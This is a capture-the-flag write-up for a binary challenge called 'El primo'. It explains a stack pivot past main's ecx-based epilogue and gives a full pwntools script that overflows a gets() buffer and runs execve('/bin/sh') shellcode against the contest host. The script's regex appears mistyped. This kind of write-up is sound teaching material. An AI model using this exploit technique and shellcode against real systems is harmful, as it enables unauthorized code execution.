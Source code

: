 # El primo

There's no NX, AND a gets call. On top of this, the program sends us the buffer address. A simple ret to shellcode, right?

Wrong, in fact. We have to buffer overflow from main, which makes things more difficult.
Instead of the classic leave ; ret, it pops a value into ecx, then loads ecx - 4 into esp.
This removes our classic buffer overflow where we change EIP. Instead, we must stack pivot.

We have control of ESP. When you call ret, the program jumps to the address stored at ESP.
We can set esp to the address of the buffer.
Then, we change the beginning of our buffer to be the address of our shellcode.I put the shellcode after the esp.

We can use pattern.py to figure out the amount of bytes until esp, which is 32.

### NOTE! it subtracts 4 from our chosen esp value, so we must take care of this.
I created custom shellcode that had to have the address of a string /bin/sh which I also put in the input.
```python
from pwn import *
import re
NUM_TO_ESP = 32
p = remote('p1.tjctf.org', 8011)
p.recvline()
output = p.recvline().decode()
bufaddr = int(re.findall("hint: (,*)", output)[0],16)
shellcode = asm(f"mov ebx,{hex(bufaddr + 4)} ; mov ecx,0 ; mov edx,0 ; mov eax,0xb ; int 0x80") 
start = flat(bufaddr + 36, b"/bin/sh\x00")
espval = bufaddr + 4
payload = start
payload += b'A' * (NUM_TO_ESP - len(payload))
payload += p32(espval)
payload += shellcode
p.sendline(payload)
p.interactive()
```
